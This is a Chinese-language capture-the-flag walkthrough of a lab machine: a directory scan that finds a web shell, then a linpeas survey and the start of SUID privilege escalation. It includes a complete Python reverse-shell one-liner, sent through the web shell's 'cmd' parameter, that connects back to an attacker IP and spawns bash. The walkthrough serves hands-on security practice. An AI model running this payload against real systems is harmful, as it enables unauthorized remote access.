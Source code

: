 ### 目录扫描

```bash
dirsearch -u http://10.160.3.85 -e* -i 200,300-399
```

```bash
/shell.php
```

啊这。。。

## 漏洞利用

打开看一下：

```text
/*pass cmd as get parameter*/
```

直接给shell了，这。。。

![image-20240319181802289](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403192201589.png)

弹一个shell吧。。。。

```bash
http://10.160.3.85/shell.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.161.181.188",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403192201591.png" alt="image-20240319182621866" style="zoom:50%;" />

## 提权

### 信息搜集

![image-20240319182900787](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403192201592.png)

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403192201593.png" alt="image-20240319182926405" style="zoom:50%;" />

![image-20240319182940552](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403192201594.png)

上传一个`linpeas.sh`搜集一波：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403192201595.png" alt="image-20240319183441804" style="zoom:50%;" />

### 方法一：shell文件赋权user3

看到一个`suid`文件`user3`的shell文件，看一下内容，发现会乱码，是`ELF`文件，传过来看看：

![image-20240319184446275](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403192201596.png)
